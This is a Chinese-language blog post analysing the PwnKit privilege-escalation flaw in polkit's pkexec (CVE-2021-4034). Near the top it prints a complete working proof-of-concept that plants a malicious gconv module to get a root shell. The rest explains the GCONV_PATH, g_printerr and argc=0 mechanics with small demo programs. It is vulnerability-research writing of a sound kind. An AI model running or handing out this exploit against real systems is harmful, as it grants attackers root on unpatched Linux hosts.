


# pwnkit 漏洞分析-CVE-2021-4034 - 功夫小熊猫 - 博客园

> 原文：[`www.cnblogs.com/vpandaxjl/p/15858288.html`](https://www.cnblogs.com/vpandaxjl/p/15858288.html)

研究了一下前段时间的 Polkit 提权漏洞，里面有很多以前不知道的技巧。漏洞很好用，通杀 CENTOS、UBUNTU 各版本。

主要是分析这个 POC 触发原理。POC 如下：

```
/* * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */ #include <stdio.h> #include <stdlib.h> #include <unistd.h>

char *shell = 
    "#include <stdio.h>\n"
    "#include <stdlib.h>\n"
    "#include <unistd.h>\n\n"
    "void gconv() {}\n"
    "void gconv_init() {\n"
    " setuid(0); setgid(0);\n"
    " seteuid(0); setegid(0);\n"
    " system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
    " exit(0);\n"
    "}"; int main(int argc, char *argv[]) {
    FILE *fp;
    system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
    system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
    fp = fopen("pwnkit/pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC"); char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
    execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

这个 POC 大致思路是这样：

1、通过向 execve 传递环境变量参数，最终是为了改变 GCONV_PATH（如何改变看分析三）；

2、通过 pkexec 中主函数对参数的处理，由于 argv 和 envp 相邻栈空间，通过溢出修改环境变量 envp；

3、借助 pkexec 中的 g_printerr 函数，以编码转换为目的，执行对应链接库.so 中的函数得到执行权限（看分析一）；

**一、先分析几个和该漏洞相关的重点，分析 GCONV_PATH 环境变量在提权中的作用：**

通过网上几篇 php disable_functions bypass 的文章，了解 php 的 iconv 函数（编码转换函数）实际是调用 glibc 中的函数 iconv_open()。触发了 iconv_open 函数会执行：

1、根据 GCONV_PATH 环境变量，找到 gconv-modules 配置文件；

2、根据 gconv-modules 配置文件，可以找到需要转换编码对应的.so 文件；

3、调用.so 文件中的 gconv()和 gconv_init()函数；

所以只要改变 GCONV_PATH 的变量，然后把执行语句放入.so 中的 gconv_init()函数，通过编码转换函数 iconv 就可以得到执行。在本次提权漏洞中 pkexec 中调用了 glibc 的 g_printerr 函数。g_printerr 函数用来输出错误信息，但是如果环境变量 CHARSET 不是 utf-8，g_printerr()函数就会调用 iconv_open()，将编码转换成 CHARSET 设定的编码，通过在 GCONV_PATH 的 gconv-modules 找到对应编码的.so 路径，来执行编码函数实现编码。

演示一下这一部分：

调用 glibc 的 g_printerr 函数。生成可执行文件 printerr_

```
#include <stdio.h> #include <stdlib.h> #include <glib.h>

int main(int argc, char *argv[]) {
        g_printerr("xx"); return 0;
}
```

在/root/pwnkit 目录生成 pwnkit.so

```
#include <stdio.h> #include <stdlib.h> #include <unistd.h>

void gconv() {} void gconv_init() {
    printf("%s","i am so");
}
```

在/root/pwnkit 目录生成 gconv-modules

```
module UTF-8// PWNKIT// /root/pwnkit/pwnkit 2
```

修改环境变量

```
export GCONV_PATH=/root/pwnkit
export CHARSET=PWNKIT
```

执行

```
[root@vpanda-01 ~]# ./printerr_ 
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
xxi am soYou have mail in /var/spool/mail/root
```

可以看到 printerr_ 在执行 g_printerr 函数的时候，因为环境变量的改变，成功执行了 pwnkit.so 中的 gconv_init 函数。

**二、分析 execve 接收的参数：**

阅读 manpage，execve 命令可以在程序中执行新的另一个程序，并带入参数和环境变量。

```
execve(const char *path, char *const argv[], char *const envp[]);
```

比较普通执行程序和通过 execve 执行在参数上的区别。

新建普通程序

```
#include <stdio.h> #include <stdlib.h> #include <unistd.h>

int main(int argc, char *argv[],char *envp[]) {
    printf("argc=%d\n",argc);
    printf("argv[0]=%s\n",argv[0]);
    printf("argv[1]=%s\n",argv[1]);
    printf("argv[2]=%s\n",argv[2]);
    printf("argv[3]=%s\n",argv[3]);
    printf("argv[4]=%s\n",argv[4]); int i; for(i=0;i<7;i++){
                printf("envp[%d]=%s\n",i,envp[i]);
        }    
    printf("\n"); return 0;
}
```

输出结果如下：

```
argc=1 argv[0]=./a.out argv[1]=(null)
argv[2]=HOSTNAME=vpanda-01 argv[3]=TERM=xterm
argv[4]=SHELL=pwnkit
envp[0]=HOSTNAME=vpanda-01 envp[1]=TERM=xterm
envp[2]=SHELL=pwnkit
envp[3]=HISTSIZE=1000 envp[4]=SSH_CLIENT=1.1.1.1 34540 22 envp[5]=OLDPWD=/root/pwnkit
envp[6]=SSH_TTY=/dev/pts/4
```

当不跟参数的时候，argc 只有程序名本身 1，环境变量在 argv 指针往后延可以继续读取。

使用 execve 调用后，这里带入参数(char*[]){NULL}，以及 envp 环境变量

```
#include <stdio.h> #include <stdlib.h> #include <unistd.h>

int main(int argc, char *argv[],char *envp[]) { char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
    execve("./a.out", (char*[]){NULL}, envp); return 0;
}
```

输出结果

```
[root@vpanda-01 ~]# ./testrun 
argc=0 argv[0]=(null)
argv[1]=HOSTNAME=vpanda-01 argv[2]=TERM=xterm
argv[3]=SHELL=pwnkit
argv[4]=HISTSIZE=1000 envp[0]=HOSTNAME=vpanda-01 envp[1]=TERM=xterm
envp[2]=SHELL=pwnkit
envp[3]=HISTSIZE=1000 envp[4]=SSH_CLIENT=1.1.1.1 34540 22 envp[5]=OLDPWD=/root/pwnkit
envp[6]=SSH_TTY=/dev/pts/4 
```

替换为参数 env 后

```
[root@vpanda-01 ~]# ./testrun
argc=0 argv[0]=(null)
argv[1]=pwnkit
argv[2]=PATH=GCONV_PATH=.
argv[3]=CHARSET=PWNKIT
argv[4]=SHELL=pwnkit
envp[0]=pwnkit
envp[1]=PATH=GCONV_PATH=.
envp[2]=CHARSET=PWNKIT
envp[3]=SHELL=pwnkit
envp[4]=(null)
```

此时，由于带入参数问题，argc 为 0，将造成 pkexec 漏洞触发，见分析三。

**三、分析 pkexec 本身：**

分析源代码 pkexec.c 的 main 函数



因为 execve 带入，argc 等于 0，所以 n=1 以后 n<argc 的条件不满足


 path=argv[1]=pwnkit



满足这个条件，执行 g_find_program_in_path（path）

通过环境变量 PATH 得到绝对路径，argv[1] = GCONV_PATH=./pwnkit

因为 argv[1]的指针就是 enpv[0]，所以在程序中环境变量的第一个变量被改变为 GCONV_PATH=./pwnkit。

所以通过 execve 传递 null 参数，然后借助 pkexec 本身可以修改程序当前环境变量，比如在这里修改环境变量 GCONV_PATH。

最后通过 g_printerr 函数与当前的非 UTF-8 环境，造成 gconv_init 执行，造成/bin/bash 程序执行，恢复环境变量得到 root shell。